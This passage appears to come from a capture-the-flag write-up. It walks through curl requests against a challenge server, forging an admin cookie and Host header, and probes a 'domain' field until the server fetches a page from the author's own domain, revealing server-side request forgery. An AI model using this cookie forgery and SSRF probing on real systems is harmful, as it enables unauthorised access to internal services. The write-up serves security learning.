 Progress! However, now something is wrong with the body. Very reasonable, given that we haven't provided one yet. I started out with just an empty JSON object.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{}'

```
{"error":{"domain":"required"}}
```

Now it decodes but it seems a mandatory key is missing. Let's add it.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":""}'

```
{"error":{"domain":"incorrect value, .com domain expected"}}
```

Domain has to be a .com domain. I still have no idea what this is going to be used for so let's just put in something.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"www.a.com"}'

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```

That's an oddly specific requirement on the value.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.a.com"}'

```
{"next":"\/read.php?id=0"}
```

Finally! The request seems to have been processed correctly and we get a new URI to look at.
Checking the contents of it just gives us the following.

> curl 'http://104.236.20.43/read.php?id=0' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":""}
```

Maybe the system uses the domain to fetch some kind of data. I used my own domain to set up a simple page just containning "Hello World!" and submitted it to the system.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}'

```
{"next":"\/read.php?id=1"}
```

> curl 'http://104.236.20.43/read.php?id=1' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":"SGVsbG8gV29ybGQhCg=="}
```
